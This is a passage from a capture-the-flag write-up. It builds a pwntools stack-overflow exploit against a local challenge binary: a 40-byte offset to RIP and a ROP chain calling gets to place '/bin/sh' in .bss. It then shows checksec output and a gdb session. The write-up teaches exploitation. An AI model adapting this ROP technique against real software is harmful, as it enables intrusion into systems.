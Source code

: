 ```py
from pwn import *

elf = ELF("chall")
p = process("./chall")

payload = b"A"*40 # Offset to RIP
payload += p64(0x0400693) # `pop rdi; ret`
payload += p64(0x601150) # the `.bss` address`
payload += p64(elf.plt['gets']) # PLT address of `gets`
p.sendlineafter(b"warrior\n", "Robin")
pause() # This will allow the process to pause and then we debug it in `gdb`
p.sendlineafter(b"me?\n", payload) 
p.interactive()
```

> Payload: The `pop rdi; ret` will pop the `rdi` register and we gave the `.bss` address right after it, after that we added the PLT address of `gets`, that means we are just doing `gets(write_addr)`.

Let's run this script, after that we will attach it to `gdb` and check if the `/bin/sh` has been stored at that `.bss` address or not:-

```asm
 ✘ d4mianwayne@oracle : /tmp/ctf/pwn1 $ python3 xpl.py
[*] '/tmp/ctf/pwn1/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './chall': pid 23064
[*] Paused (press any to continue)
```

Let's `attach` this process to `gdb`:-

```asm
gef➤  attach 23064
Attaching to program: /tmp/ctf/pwn1/chall, process 23064
Reading symbols from /lib/x86_64-linux-gnu/libc.so.6...Reading symbols from /usr/lib/debug//lib/x86_64-linux-gnu/libc-2.27.so...done.


-- snip -- 

[#3] 0x7fb09f4e21fd → _IO_gets(buf=0x7ffdd9adead0 "")
[#4] 0x4005d2 → vulnerable()
[#5] 0x400623 → main()
──────────────────────────────────────────────────────────────────────────────────────────────────────────
0x00007fb09f572081 in __GI___libc_read (fd=0x0, buf=0xca4670, nbytes=0x1000) at ../sysdeps/unix/sysv/linux/read.c:27
27	../sysdeps/unix/sysv/linux/read.c: No such file or directory.
```
